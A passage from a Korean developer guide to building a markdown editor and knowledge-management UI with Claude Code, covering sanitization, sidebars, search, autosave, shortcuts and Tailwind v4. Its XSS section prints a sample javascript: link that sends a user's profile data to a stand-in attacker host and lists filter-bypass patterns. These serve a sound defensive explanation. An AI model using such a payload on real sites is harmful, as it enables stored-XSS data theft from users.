import typescript from 'highlight.js/lib/languages/typescript';
import bash from 'highlight.js/lib/languages/bash';

unified()
  // ...
  .use(rehypeHighlight, {
    languages: { javascript, typescript, bash },
    detect: false, // 언어 자동 감지 비활성화로 번들 절감
  });
```

테마는 highlight.js 의 CSS 중 하나를 import 한다(예: `highlight.js/styles/github-dark.css`). 다크 모드 토글 시 두 테마를 모두 import 해두고 `[data-theme]` 셀렉터로 분기시키면 깔끔하다.

---

### 5.2.5 마크다운 확장 — 표·체크박스·다이어그램

| 확장 | 패키지 | 비고 |
|------|--------|------|
| 표 (table) | `remark-gfm` | GFM 자동 처리 |
| 체크박스 (`- [ ] / - [x]`) | `remark-gfm` | UI에서 클릭 가능하도록 별도 처리 |
| 자동 링크 | `remark-gfm` | http://example.com 자동 링크 |
| 다이어그램 (Mermaid) | 별도 후처리 | 코드 블록 `mermaid` 감지 → mermaid.js 렌더 |
| 수식 (KaTeX) | `remark-math` + `rehype-katex` | `$...$` · `$$...$$` |
| 그래프 시각화 (markflow) | React Flow 기반 별도 컴포넌트 | 마크다운 코드블록이 아닌 모달로 호출 |

**Mermaid 다이어그램 후처리 예시** *(권장 패턴 — 현재 markflow 미적용)*

```tsx
// 권장 위치: apps/web/components/preview/MermaidBlock.tsx
'use client';
import { useEffect, useRef } from 'react';
import mermaid from 'mermaid';

mermaid.initialize({ startOnLoad: false, theme: 'default', securityLevel: 'strict' });

export function MermaidBlock({ code }: { code: string }) {
  const ref = useRef<HTMLDivElement>(null);
  useEffect(() => {
    const id = `m-${Math.random().toString(36).slice(2)}`;
    mermaid.render(id, code).then(({ svg }) => {
      if (ref.current) ref.current.innerHTML = svg;
    });
  }, [code]);
  return <div ref={ref} className="my-4" />;
}
```

미리보기 렌더 시 `<pre><code class="language-mermaid">…</code></pre>`를 감지해 위 컴포넌트로 대체한다(React 컴포넌트 렌더러로 가로채기). Mermaid `securityLevel`은 SaaS 환경에서 반드시 `'strict'`로 둔다(클릭 핸들러 외부 스크립트 차단).

> 🔧 **[코드베이스 교정]** — 현재 markflow는 **mermaid를 도입하지 않았다**. 마크다운 파이프라인에 mermaid 단계가 없고, 다이어그램 시각화는 별도로 React Flow 기반의 `mind-map-canvas.tsx`/`dag-structure-modal.tsx`/`mini-dag-diagram.tsx`로 구현되어 있다(마크다운 안의 코드블록이 아니라 별도 모달). 위 코드는 *향후 도입 시 권장 패턴*이다.

---

### 5.2.6 XSS 방지와 sanitize 처리

#### 왜 마크다운에서 XSS 위험이 큰가

마크다운 미리보기는 본질적으로 **사용자가 입력한 텍스트를 곧바로 HTML로 렌더하는 화면**이다. 게다가 마크다운 표준은 *일부러* raw HTML 삽입을 허용한다 — `<details>`, `<sub>`, 표 안의 정렬 속성 같은 표현력을 위해.

이 두 사실이 합쳐지면 다음 한 줄로도 화면이 무너진다:

```markdown
[클릭](javascript:fetch('/api/v1/users/me').then(r=>r.json()).then(d=>fetch('https://attacker/'+btoa(JSON.stringify(d)))))
```

```markdown

```

저장형 댓글에 한 번 들어가면, 그 페이지를 보는 **모든 동료의 브라우저**에서 코드가 실행된다 (저장형 XSS). 권한 탈취·데이터 유출·상태 조작 모두 가능.

→ 그래서 마크다운 에디터는 *처음부터* 다층 방어를 짜놓고 시작해야 한다. 나중에 끼워넣는 sanitize는 이미 늦다.

#### 우리의 7가지 방어선 (defense in depth)

| # | 방어선 | 무엇을 막나 |
|---|--------|------------|
| 1 | **파이프라인 마지막에 sanitize** | 모든 변환이 끝난 hast 트리를 한 번에 화이트리스트로 검열 |
| 2 | **stringify는 sanitize 직후** | sanitize 통과 후 어떤 plugin도 끼지 못하게 — 새 마크업 주입 차단 |
| 3 | **화이트리스트 방식** | "위험한 것 차단"이 아니라 "안전한 태그/속성/프로토콜만 통과" — 미지의 위협에도 강함 |
| 4 | **프로토콜 차단** | `href`는 `http/https/mailto/...`만 허용. `javascript:`, `data:`, `vbscript:` 자동 제거 |
| 5 | **`<script>` 태그 통째 제거** | `defaultSchema`의 `strip: ['script']` — 흔적도 안 남김 |
| 6 | **외부 링크 격리** | `rehypeExternalLinks` 커스텀 플러그인이 모든 `<a>`에 `target="_blank" rel="noopener noreferrer"` 부착 → `window.opener` 탈취·refer 누출 방어 |
| 7 | **`dangerouslySetInnerHTML`은 sanitize 통과 출력에만** | `parseMarkdown()` 결과 외에는 절대 직접 innerHTML에 주입하지 않음 |

#### 왜 sanitize가 *반드시* 마지막이어야 하는가

순서를 바꾸면 안전이 깨진다. 한 줄로 이해하기:

> **검열 후에 마크업을 더 만들면, 더 만든 부분은 검열되지 않는다.**

예를 들어 sanitize → KaTeX 순으로 두면, KaTeX가 후에 만든 `<math>` 트리는 검열되지 않은 채 출력된다. KaTeX 자체는 안전하더라도, 입력 수식에 따라 예상 못한 속성/태그가 만들어질 수 있고, 한 번이라도 통과하면 전체가 신뢰될 수 없다.

그래서 우리 파이프라인의 철칙은:

```
모든 변환 → 마지막에 sanitize → 직렬화
```

이 순서는 절대 바꾸지 않는다. 새 plugin을 추가할 때도 sanitize *이전*에만 끼워넣는다.

#### `dangerouslySetInnerHTML` — 안전하게 쓰는 단 한 가지 규칙

```tsx
// ✅ 안전: parseMarkdown 이 sanitize 까지 통과시킨 HTML
<div dangerouslySetInnerHTML={{ __html: parseMarkdown(userInput) }} />

// ❌ 위험: 사용자 입력 그대로
<div dangerouslySetInnerHTML={{ __html: userInput }} />

// ❌ 위험: 다른 라이브러리가 만든 미검증 HTML
<div dangerouslySetInnerHTML={{ __html: marked(userInput) }} />

// ❌ 위험: sanitize를 거쳤지만 그 후 직접 문자열 합성
<div dangerouslySetInnerHTML={{ __html: parseMarkdown(input) + '<div>' + raw + '</div>' }} />
```

이 규칙 하나만 지키면 컴포넌트 단위 XSS는 거의 막힌다. 코드 리뷰에서 `dangerouslySetInnerHTML`이 보이면 *입력이 sanitize를 거쳤는지*만 확인하면 된다.

#### Claude Code에 컴포넌트를 의뢰할 때의 프롬프트 예시

```text
React 마크다운 미리보기 컴포넌트를 작성해줘. 다음 규칙을 반드시 지켜:

1. 사용자 입력은 unified + remark + rehype 파이프라인으로 처리한다.
2. 파이프라인 끝에서 두 번째에 rehype-sanitize 를 둔다 (마지막은 stringify).
3. dangerouslySetInnerHTML 은 parseMarkdown() 출력에만 사용한다.
4. KaTeX, highlight.js, GitHub 스타일 태그(details/summary/kbd/sub/sup)는
   sanitize schema 화이트리스트에 추가한다.
5. 모든 외부 링크에 rel="noopener noreferrer" 를 부착한다 (rehype 커스텀 플러그인).
6. javascript:/data:/vbscript: URL 은 차단한다 — defaultSchema 의 protocols 항목을
   임의로 풀지 말 것.
7. 미리보기는 동기 렌더(processSync)로 입력 즉시 갱신한다.
```

**왜 이렇게 길게 적어야 하나** — AI가 마크다운 미리보기를 만들면 흔히 `dangerouslySetInnerHTML={{ __html: marked(input) }}` 같은 코드를 빠르게 내놓는다. 보안 요구사항을 *명시적으로* 박지 않으면, 검증 없는 빠른 코드가 나오기 쉽다. 위 7개 규칙을 프롬프트에 넣어두면 처음부터 안전한 골격이 나온다.

#### 흔한 실수와 안티패턴

| 안티패턴 | 왜 위험한가 | 올바른 방법 |
|---------|-------------|-------------|
| `<div dangerouslySetInnerHTML={{ __html: comment }} />` | 사용자 댓글 그대로 HTML 주입 — 저장형 XSS 직격 | `parseMarkdown(comment)` 거친 결과만 주입 |
| sanitize 다음에 plugin 추가 | 그 plugin 산출물이 검열되지 않음 | sanitize는 항상 stringify 직전에 고정 |
| `protocols.href: ['javascript', ...]` 추가 | 백도어 — 한 줄로 모든 방어 무력화 | `defaultSchema`의 protocols는 절대 풀지 말 것 |
| 자체 정규식으로 `<script>` 제거 | 우회 패턴 다수 (`<scr<script>ipt>`, `onerror=`, `javascript:`, SVG 이벤트…) | 표준 sanitize 라이브러리 사용 |
| 저장과 렌더 둘 다 sanitize | 저장 시 검열하면 원문이 손상돼 편집 불가능 | 원문 보존, 렌더 시점에만 검열 |
| `iframe` 통째 허용 | 하위 페이지가 부모 권한을 우회·피싱 | 화이트리스트에 절대 추가 X. 임베드는 별도 페이지 + CSP |

#### 한 줄 핵심

> **"사용자 입력 마크다운은 raw HTML을 일단 보존하되, 반드시 마지막 단계에서 화이트리스트로 검열해 안전한 부분만 출력한다. 검열 후에는 어떤 plugin도 끼지 않으며, `dangerouslySetInnerHTML`은 그 검열을 거친 결과에만 사용한다."**

#### Claude Code로 보안 점검 (운영)

```bash
/security-review @packages/editor/src/utils/parseMarkdown.ts
/security-review @packages/editor/src/preview/PreviewPane.tsx
```

> **CLAUDE.md에 강제 규칙 추가** (이미 markflow 루트 CLAUDE.md에 반영됨)
> ```
> ## 마크다운 처리 규칙(반드시 준수)
> - rehype-sanitize 는 파이프라인 마지막
> - dangerouslySetInnerHTML 직접 사용 금지 (반드시 sanitize 거친 결과만)
> - innerHTML 직접 조작 금지
> - 외부 링크 자동 rel="noopener noreferrer"
> ```
>
> 이 규칙을 더 강하게 적용하려면 PostToolUse Hook에서 변경된 `.tsx` 파일에 `dangerouslySetInnerHTML`이 새로 추가되었는지 grep으로 검사 후 `exit 2`로 차단하는 방식이 효과적이다(Level 3.5의 가드레일 훅 참고).

---

### 5.2.7 CodeMirror 6 패턴 (참고) — Compartment & Hot-swap

에디터 런타임 설정을 `EditorView` 재생성 없이 교체하는 표준 패턴.

- **`Compartment`** — 테마, readOnly, placeholder 등 런타임 변경이 필요한 설정을 격리하는 단위. 격리되지 않은 extension은 마운트 시점에 고정된다.
- **Hot-swap** — `compartment.reconfigure(newExtension)`로 extension 교체. `EditorView`는 재생성하지 않으므로 **캐럿·스크롤·undo 스택이 모두 보존**된다.
- **`EditorView` 라이프사이클** — 마운트 시 1회만 생성, cleanup 시 `view.destroy()` 호출. React `useEffect` 안에서 ref로 추적.

> **권장**: 테마 토글·readOnly 모드 전환 같은 동적 변경은 새 `EditorView` 인스턴스 생성으로 풀지 말 것. `Compartment + reconfigure`가 표준 — 사용자 편집 컨텍스트가 보존된다.

---

## 5.3 지식 관리 UI 패턴

문서가 한두 개일 때는 어떤 UI든 작동한다. **수백·수천 개로 불어났을 때** 사용자가 길을 잃지 않게 하는 것이 지식 관리(KMS) UI의 본질이다. 트리 사이드바·검색·자동저장·단축키·명령 팔레트는 각자 다른 문제를 푸는 다섯 개의 도구지만, 공통의 가정 하나에 묶인다 — *사용자는 키보드로 빠르게 흐름을 끊지 않고 일하고 싶다.*

### 5.3.1 트리 구조 사이드바 (폴더·문서 계층)

#### 왜 트리인가

평면 문서 리스트는 50개를 넘어가면 사용자가 머릿속에서 분류하는 노력을 매번 다시 해야 한다. 폴더 트리는 윈도우 탐색기·Notion·VSCode가 30년간 정착시킨 메타포라서 *학습 비용이 0*이다. 백엔드는 이미 카테고리 계층(Closure Table)을 가지고 있으므로, 프론트엔드는 **빠른 트리 렌더 + 직관적인 D&D 이동**만 잘하면 된다.

#### 핵심 동작

| 기능 | 의도 |
|------|------|
| 펼치기/접기 + 펼침 상태 보존 | 새로고침해도 사용자가 찾던 곳을 잃지 않게 — `localStorage`에 워크스페이스별 상태 저장 |
| 현재 문서 자동 펼침 | URL의 `docId`로 진입했을 때, 그 문서의 조상 폴더가 모두 펼쳐진 상태로 보임 |
| 드래그앤드롭 이동 | 폴더 안으로 / 형제 위치로 두 가지 드롭존을 시각적으로 분리 (가로 라인 vs 박스 하이라이트) |
| 인라인 이름 변경 | 더블클릭 또는 F2 — 모달 띄우지 말 것. 흐름이 끊긴다. |
| 우클릭 컨텍스트 메뉴 | 새 문서 / 새 폴더 / 이름 변경 / 삭제 / 색상 라벨 |
| 키보드 내비게이션 | ↑↓ 이동 · → 펼침 · ← 접힘 · Enter 선택 — 마우스 안 써도 됨 |
| 가상 스크롤 | **폴더당 100개 이상에서만** 적용. 미만은 평범한 div가 더 빠르고 디버깅 쉬움 — 오버엔지니어링 주의 |

#### 프롬프트 예시

```text
지식관리 시스템 사이드바 컴포넌트를 작성해줘. 다음 동작을 만족해:

1. 백엔드 GET /api/v1/workspaces/:id/categories 로 트리를 받는다.
   응답은 Adjacency List + closure 깊이를 포함하므로 클라이언트에서 트리로 조립.
2. 펼침/접힘 상태는 localStorage 키 "ws-{wid}-open-folders" 로 보존.
3. URL 의 docId 가 가리키는 문서의 조상 폴더를 자동으로 펼친다.
4. 폴더 우클릭 컨텍스트 메뉴: 새 문서 / 새 폴더 / 이름 변경 / 삭제.
5. 폴더 D&D 이동 시 두 가지 드롭존:
   - 폴더 박스 위에 hover = 그 폴더의 자식이 됨 (배경 강조)
   - 폴더 사이의 가로선 hover = 형제 위치로 이동 (얇은 line indicator)
   서버는 PATCH /api/v1/.../categories/:id 로 parentId 업데이트.
6. 키보드: ↑↓ 이동, → 펼침, ← 접힘, Enter 선택, F2 이름 변경.
7. 한 폴더의 직접 자식이 100 개 이상일 때만 react-window 가상 스크롤,
   그 미만은 일반 렌더.
8. IME 입력 중 (composing) 키 단축은 무시.
```

---

### 5.3.2 검색·필터링 (전문 검색 · 태그 필터)

#### 왜 트리만으로 부족한가

트리는 *위치를 아는 문서*를 빠르게 여는 도구다. 지식이 쌓이면 사용자는 위치를 기억하지 못하고 *키워드*만 떠올린다 — "지난주 누가 말한 인증 토큰 정책 어디였지?" 트리에서 이걸 찾으려면 모든 폴더를 펼쳐 본문까지 훑어야 한다. 검색은 그 비용을 0으로 만든다.

#### 핵심 동작

| 기능 | 의도 |
|------|------|
| 전문 검색(full-text) | 제목 + 본문 동시 매치. 한국어는 토큰화가 까다로워 `pg_trgm` 기반 fuzzy ILIKE 사용 (서버 책임) |
| 입력 디바운스 | 사용자가 타이핑 중 매 키마다 요청을 보내면 서버 부하·UI 지연. 200~300ms 멈춘 뒤 한 번만 |
| 결과 카드 | 제목 + 본문 발췌(검색어 강조) + **카테고리 경로** — 위치 맥락이 같이 보여야 클릭 결정이 빠름 |
| 다중 키워드 | 공백 구분 시 AND 매치. "kms 보안" → 두 단어 모두 포함하는 문서만 |
| 태그 필터 | 보조 좁히기 — 검색어 + 태그 다중선택(AND). 태그는 워크스페이스 풀에서 자동완성 |
| URL 동기화 | `?q=…&tags=…` 쿼리로 상태 보존 → 새로고침·뒤로가기·링크 공유 모두 가능 |
| 키보드 진입 | `Cmd+K`로 모달 열기 (단축키 시스템 §5.3.4) |

#### 프롬프트 예시

```text
지식관리 검색 모달을 작성해줘. 다음을 만족해:

1. 입력 250ms 디바운스 후 GET /api/v1/workspaces/:wid/search?q=&tags=
   - 서버는 pg_trgm 기반 fuzzy 매치 + 워크스페이스 격리.
2. 결과 카드: 제목 / 본문 200자 발췌 / 카테고리 경로 / 마지막 수정일.
   검색어와 일치하는 부분은 굵게 강조 (mark 태그, 보안 검사 통과 후).
3. 태그 필터: 멀티셀렉트 자동완성. 선택은 AND.
4. URL 쿼리(q, tags)와 모달 상태 양방향 동기화 — 새로고침·뒤로가기 보존.
5. 빈 결과: "검색어를 다시 시도하거나 태그 필터를 줄여보세요" 가이드.
6. 결과 ↑↓ 이동, Enter 로 해당 문서 열기 + 모달 닫힘.
7. Esc 로 모달 닫기. 닫힐 때 입력값은 URL 쿼리에 따라 재현 가능하도록.
8. 입력값 보안: 서버에 그대로 보내되 클라이언트 렌더 시 XSS 검열 통과 필수.
```

---

### 5.3.3 자동 저장(Auto-save)과 충돌 해결

#### 왜 사용자에게 저장을 시키지 않는가

`Cmd+S`를 강제하면 두 가지가 깨진다 — 첫째, 사용자가 깜빡 잊은 순간 데이터를 잃는다(신뢰 파괴, 한 번 잃으면 재방문 안 함). 둘째, 자동저장이 없으면 사용자는 *몇 분마다 생각이 끊긴다*. 좋은 KMS는 사용자가 저장을 의식하지 않게 한다.

#### 핵심 동작

| 기능 | 의도 |
|------|------|
| 디바운스 자동저장 (1.5~3초) | 입력 멈춘 직후 저장. 중간 모든 키를 저장하지 않음 |
| 조용한 상태 인디케이터 | "저장 중 / 저장됨 14:32 / 오프라인" — 작은 텍스트, 깜빡이지 않음 |
| `expectedVersion` 충돌 감지 | 다른 탭/사용자가 먼저 저장하면 409. 단순 덮어쓰기는 위험 |
| 충돌 시 머지 화면 | 모달: "다른 곳에서 변경됨" + 옵션 셋(내 변경 유지 / 원격 받기 / 둘 다 보기) |
| 네트워크 실패 백오프 | 1s → 3s → 9s 지수 재시도. 그래도 실패면 `localStorage`에 임시 저장 |
| `beforeunload` 가드 | 저장 안 된 변경이 있으면 페이지 닫기 전 경고 |
| `Cmd+S` 즉시 저장 | 디바운스 무시 — 사용자가 명시적으로 원할 때 |

#### 프롬프트 예시

```text
마크다운 에디터에 자동 저장을 붙여줘. 다음 동작을 만족해:

1. 입력 멈춘 지 1500ms 후 PATCH /api/v1/workspaces/:wid/documents/:id
   요청 본문에 expectedVersion (현재 클라이언트가 가진 버전) 포함.
2. 응답 200: 상태바에 "저장됨 HH:mm" 표시. 3초 후 페이드아웃.
3. 응답 409 VERSION_CONFLICT:
   - 서버 최신본을 받아 모달 표시.
   - 옵션 (내 변경 유지 / 원격 받기 / 둘 다 보기 — diff 뷰).
4. 네트워크 실패: 1s → 3s → 9s 지수 백오프 3회 재시도.
   그래도 실패면 localStorage 키 "draft-doc-{id}" 에 본문 저장 +
   상태바 "오프라인 — 자동 재시도 중".
5. Cmd+S: 디바운스 무시하고 즉시 저장.
6. 페이지 닫기(beforeunload): 저장 안 된 변경 있으면 브라우저 경고.
7. 페이지 진입 시 localStorage draft 가 있으면 사용자에게 "복구할까요?" 안내.
8. 상태 인디케이터는 정적 (깜빡이지 않음). 색은 약한 회색/녹색/주황만.
```

---

### 5.3.4 단축키 시스템 (Cmd+S · Cmd+K · Cmd+P)

#### 왜 일관된 단축키가 필요한가

파워 유저는 마우스를 거의 안 쓴다. *모든 화면에서 `Cmd+S`가 같은 일을 한다*는 보장이 없으면, 사용자는 매번 어디서 어떤 단축키가 작동하는지 시험해보게 된다. KMS의 장기 사용성은 이 일관성에서 나온다.

#### 핵심 동작

| 기능 | 의도 |
|------|------|
| 글로벌 hotkey provider | 앱 루트에서 단 한 번 등록. 컴포넌트 곳곳에 흩뿌리지 않음 |
| OS 분기 자동 처리 | macOS는 Cmd, Windows/Linux는 Ctrl — `Mod` 추상화로 한 번에 |
| `when` 컨텍스트 조건 | 같은 키라도 상황별 동작 분기 (검색 모달 안에서 `Cmd+K` = 닫기, 평소 = 열기) |
| IME 합성 중 비활성 | 한국어 입력 도중 단축키 오작동 방지 (`composing` 플래그 체크) |
| 브라우저 기본 차단 | `Cmd+P`(인쇄) / `Cmd+S`(HTML 저장) `preventDefault` 후 우리 동작 |
| 단축키 도움말 모달 | `Cmd+/` 누르면 등록된 모든 단축키 표시 — 외울 필요 없음 |
| 표준 매핑 | Save `Mod+S` · Search `Mod+K` · Command Palette `Mod+P` · Sidebar Toggle `Mod+B` · Help `Mod+/` |

#### 프롬프트 예시

```text
앱 글로벌 단축키 시스템을 만들어줘. 다음을 만족해:

1. 등록 모델: { id, keys, when, handler, label, group } 의 평탄한 배열.
   keys 는 "Mod+S" 같은 추상 표기 — Mod 는 macOS에서 Cmd, 그 외는 Ctrl 로 자동 변환.
2. when 은 boolean 함수 — 현재 컨텍스트(검색 모달 열림 / 에디터 포커스 / 모달 열림 등)
   에 따라 같은 키가 다른 동작을 하도록.
3. IME 합성 중(event.isComposing) 단축키는 모두 무시.
4. 표준 매핑:
   - Save: Mod+S → 현재 문서 즉시 저장 (디바운스 무시)
   - Search: Mod+K → 검색 모달 토글
   - CommandPalette: Mod+P → 명령 팔레트 (5.3.5)
   - ToggleSidebar: Mod+B
   - Help: Mod+/ → 단축키 도움말 모달
5. 브라우저 기본(Cmd+P 인쇄, Cmd+S HTML 저장) 모두 preventDefault.
6. Mod+/ 모달: 등록된 모든 단축키를 group 별로 표 형태로 보여줌.
   각 행은 label / keys / when 조건 설명.
7. 등록 시점에서 키 충돌(같은 keys + 같은 when) 검출 → 콘솔 경고.
8. 입력 필드(input/textarea/contenteditable) 안에서는 Mod+S/K/P/B 만 통과시키고
   알파벳 단축키(N, F 등)는 무시 — 텍스트 입력을 방해하지 않게.
```

---

### 5.3.5 명령 팔레트(Command Palette) 구현

#### 왜 이 패턴이 강력한가

VSCode·Linear·Notion이 정착시킨 패턴이다. **사용자가 메뉴 구조를 외울 필요가 없다** — 검색으로 모든 액션·문서·설정에 도달할 수 있기 때문이다. 신규 사용자 온보딩 비용을 급격히 낮추고, 파워 유저에게는 마우스가 필요 없게 만든다.

#### 핵심 동작

| 기능 | 의도 |
|------|------|
| 전역 액션 레지스트리 | `id / label / keywords / group / run` 명세로 등록. 분산되지 않음 |
| 모드 자동 전환 (접두사) | `>save` = 액션만 / `@kim` = 멤버 / `#tag` = 태그 / 평문 = 모든 그룹 통합 검색 |
| 퍼지 매치 | 오타·줄임 허용 ("doc" → "Document Settings") |
| 그룹화 결과 | 문서 / 액션 / 탐색 / 설정 — 시각적으로 분리 |
| 키보드 완결 | ↑↓ 이동, Enter 실행, Esc 닫기. 마우스 절대 필요 없음 |
| 빈도 가중치 | 자주 쓰는 액션은 최근 사용 빈도로 상단에 자동 노출 |
| 컨텍스트 인지 | 워크스페이스 외부에서는 "이 워크스페이스 액션" 비활성화 (흐리게) |

#### 프롬프트 예시

```text
지식관리 명령 팔레트(Mod+P)를 만들어줘. 다음을 만족해:

1. 액션 레지스트리: 등록 시 { id, label, keywords, group, run, when?, icon? }.
   group 은 "문서" / "액션" / "탐색" / "설정" 중 하나.
2. 모드 자동 전환 (입력 첫 글자):
   - 빈 입력 → 최근 사용 액션 + 추천
   - 평문 → 모든 그룹 통합 퍼지 검색 (제목 + keywords)
   - "@kim" → 워크스페이스 멤버로 점프
   - "#tag" → 태그 필터 빠른 이동
   - ">save" → 액션 그룹만
3. 퍼지 매치: 줄임/오타 허용. 라이브러리는 fuse.js 또는 cmdk 권장.
4. 결과 ↑↓ 이동, Enter 실행, Esc 닫기. Tab 으로 그룹 점프.
5. 자주 쓰는 액션은 localStorage 빈도 카운터로 가중치 정렬.
6. 액션 실행 후 팔레트 자동 닫힘. 그 액션이 모달을 여는 거면 모달로 포커스 이동.
7. when 조건이 false 인 액션은 결과에 회색으로 비활성 표시 (검색은 되지만 클릭 불가).
8. 첫 진입 사용자에게는 짧은 힌트 ("@ 멤버 / # 태그 / > 액션") 를 입력 placeholder 에.
```

---

### 5.3 한 줄 핵심

> **"트리는 위치를 아는 문서를 여는 도구, 검색은 위치를 모르는 문서를 찾는 도구. 자동저장은 사용자가 저장을 의식하지 않게 하고, 단축키 + 명령 팔레트는 사용자가 마우스 없이도 흐름을 끊지 않고 일하게 한다. 다섯 패턴 모두 *키보드 우선·흐름 보존*이라는 같은 가정 위에 있다."**

---


## 5.4 CSS/UI 컴포넌트 - Tailwind CSS

> **본 절 범위 조정**: shadcn/ui 는 본 가이드 작성 시점에 우리 코드에서 사용하지 않으므로 (`shadcn` / `@radix-ui` / `cva` 0건) **본 챕터에서는 다루지 않습니다**. 향후 도입 시 별도 절로 추가하면 됩니다.

스타일링 작업의 본질은 *시각적 일관성*과 *변경 비용 최소화*다. Tailwind v4는 두 가지를 동시에 풀려고 한다 — 유틸리티 클래스로 즉석 스타일링, CSS 변수 기반 토큰으로 일관성. 이 절은 우리 프로젝트가 실제로 채택한 방식 위주로 정리한다.

---

### 5.4.1 Tailwind v4 핵심과 도입

#### 어떤 방식이고 왜 적용하는가

Tailwind는 *유틸리티 우선(utility-first)* CSS 라이브러리다. `padding: 16px`을 직접 쓰지 않고 `p-4` 같은 클래스를 조합한다. 이 접근의 이점은 두 가지다 — 첫째, *디자인 결정이 클래스 이름에 박힌다*. 코드 리뷰에서 의도가 즉시 보임. 둘째, *사용된 유틸리티만 빌드 결과에 포함*되므로 CSS가 불필요하게 부풀지 않는다.

v4의 핵심 변화는 **설정 파일이 사실상 없다**는 점이다. `tailwind.config.js`(JS)에 의존하던 v3와 달리, v4는 **CSS 자체에서 설정**(`@theme inline { ... }`)한다. 토큰을 정의하고, 그게 곧 유틸리티 클래스로 자동 노출된다.

#### 우리 프로젝트의 도입 방식 (실측)

```text
apps/web/app/globals.css 첫 줄:
  @import 'tailwindcss';

apps/web/postcss.config.mjs:
  plugins: { '@tailwindcss/postcss': {} }
```

이게 전부다. v3에서 흔히 보던 `tailwind.config.js`도, `@tailwind base/components/utilities` 세 줄 import도 없다. **단일 import + PostCSS 플러그인 한 줄**.

#### CDN 즉시 시작 vs 빌드 통합

v4는 CDN 모드(`<script src="https://cdn.tailwindcss.com">`)도 지원한다 — 프로토타이핑·정적 HTML에 빠르게 붙일 때 유용. 하지만 프로덕션에서는 *빌드 통합*이 정설이다 (사용된 유틸만 추출 → 번들 작아짐, 프로덕션 빌드에서 PurgeCSS 효과 자동).

| 상황 | 권장 |
|------|------|
| 프로토타입·소규모 정적 HTML·교육용 데모 | CDN 모드 |
| 프로덕션 앱 (우리 프로젝트 포함) | PostCSS 플러그인 빌드 통합 |
| 모노레포 다중 앱 | 빌드 통합 + `@theme` 토큰 공유 |

#### 프롬프트 예시

```text
Tailwind v4 를 Next.js 16 App Router 프로젝트에 도입해줘. 다음을 만족해:

1. 설정 파일은 만들지 말 것 — globals.css 의 @import 'tailwindcss' 한 줄 +
   postcss.config.mjs 의 @tailwindcss/postcss 플러그인 한 줄로 끝낸다.
2. JS 기반 tailwind.config.js 는 사용 X — 토큰은 globals.css 의 @theme inline 으로.
3. CDN 모드(<script src=cdn>)는 도입 시 사용 금지 — 프로덕션 번들 추출 효과를 위해.
4. 컴포넌트에선 className 에 유틸리티만 — 임의 인라인 style 객체로 회피하지 말 것.
5. 동적 클래스 이름은 안전하게: clsx 또는 객체 매핑으로, 문자열 결합으로 만들지 말 것
   (Tailwind 컴파일러가 정적 추출하지 못함).
```

---

### 5.4.2 반응형·다크모드 패턴

#### 어떤 방식이고 왜 적용하는가

**반응형**은 *모바일 우선(mobile-first)* — 기본 스타일은 가장 작은 화면 기준, 더 큰 화면에서 추가/오버라이드. Tailwind는 `sm:` `md:` `lg:` `xl:` 접두사로 *조건부 적용*. 미디어 쿼리를 별도 작성하지 않아도 된다.

**다크모드**는 두 가지 방식이 있다:

1. **시스템 자동 (`prefers-color-scheme`)** — 사용자 OS 설정 따라 자동.
2. **명시 토글 (`class="dark"` 또는 `[data-theme="dark"]`)** — 사용자가 직접 선택, 보존.

KMS는 사용자가 *직접 토글*하길 원하는 경우가 많다 (밤/낮 작업 전환). 그래서 명시 토글 + localStorage 보존이 정설이다.

#### 우리 프로젝트의 현재 상태 (실측)

| 영역 | 반응형 | 다크모드 |
|------|--------|---------|
| `@markflow/editor` 패키지 | — (CSS 모듈 안 쓰는 단일 패널) | ✅ `[data-theme="dark"]` / `[data-theme="light"]` 분기 (`editor.css`, `theme-{light,dark}.css`) |
| `apps/web` 메인 앱 | ⚠️ 랜딩 컴포넌트 4개에만 `sm:/md:/lg:` 사용 (`hero`, `nav-bar`, `features-grid`, `pricing-section`) | ❌ `globals.css` 에서 다크 분기 0건 — 라이트 단일 |

→ **격차가 있다.** 에디터(라이브러리)는 다크 OK, 메인 앱은 라이트 단일. 통합 다크 토글이 도입되면 두 영역이 동기화되어야 한다.

#### Tailwind v4의 다크모드 표준 패턴

```css
@theme inline {
  --color-bg: white;
  --color-text: #1a1916;
}

@layer base {
  [data-theme="dark"] {
    --color-bg: #0f0e0c;
    --color-text: #f1f0ec;
  }
}
```

→ **CSS 변수만 다크에서 재정의**하면 모든 유틸리티(`bg-bg`, `text-text`)가 자동 반영. 화면 코드 0줄 수정으로 다크 모드 전환.

#### 프롬프트 예시

```text
앱 전역 다크모드와 반응형을 도입해줘. 다음을 만족해:

[다크모드]
1. globals.css 의 :root 에 라이트 토큰, [data-theme="dark"] 에 다크 토큰만 재정의.
   유틸리티 클래스는 var(--color-*) 를 참조하므로 컴포넌트 코드 변경 없음.
2. 사용자 토글: <html data-theme="dark"> 속성을 클라이언트에서 제어,
   localStorage 키 "mf-theme" 으로 보존.
3. 첫 로딩 깜빡임 방지: <head> 인라인 스크립트로 localStorage 읽고 즉시 data-theme 부여.
4. 시스템 따르기 옵션: prefers-color-scheme 매체쿼리도 토글 옵션 중 하나로 제공.
5. 에디터 패키지 ([data-theme])와 메인 앱 ([data-theme]) 셀렉터 일관성 유지 — 두 영역 동기화.

[반응형]
6. 모바일 우선. 기본 = 모바일, sm:(640+)·md:(768+)·lg:(1024+)·xl:(1280+) 단계로 확장.
7. 사이드바: lg 이하에서 자동 접힘 + 햄버거 토글.
8. 레이아웃: 본문 max-w 는 토큰(--max-content-w)으로 — 화면 폭 변해도 토큰 한 곳에서.
9. 중요 인터랙션은 터치 타겟 44x44 이상 (a11y).
```

---

### 5.4.3 Claude Code로 일괄 마이그레이션

> 우리 프로젝트에 특정 마이그레이션 흔적은 남아있지 않으니, *도입할 때의 패턴*만 압축해서 제시한다.

#### 핵심 — 어떤 방식이고 왜 적용하는가

Tailwind v3 → v4, 또는 Bootstrap·CSS 모듈 → Tailwind 로의 마이그레이션은 *수백 개 파일에 걸친 반복 패턴 변환*이다. 사람이 손으로 하면 누락이 생기고, 정규식으로 하면 오탐이 많다. Claude Code는 *AST·문맥을 보는 변환*이 가능해 이 작업에 적합하다.

핵심은 **한 번에 다 바꾸려 하지 말고, 한 패턴씩 단계별로 검증 가능하게**다.

#### 프롬프트 예시

```text
프로젝트의 CSS 모듈을 Tailwind v4 유틸리티로 단계별 마이그레이션해줘:

1. 먼저 ".module.css" 파일 하나를 골라 그 모듈에서 export 된 클래스 목록 추출.
2. 각 CSS 규칙을 의미 동등한 Tailwind 유틸리티로 매핑 (margin/padding/color/flex 등).
   매핑 어려운 것(애니메이션, 복잡한 셀렉터)은 globals.css 의 @layer components 로 이전.
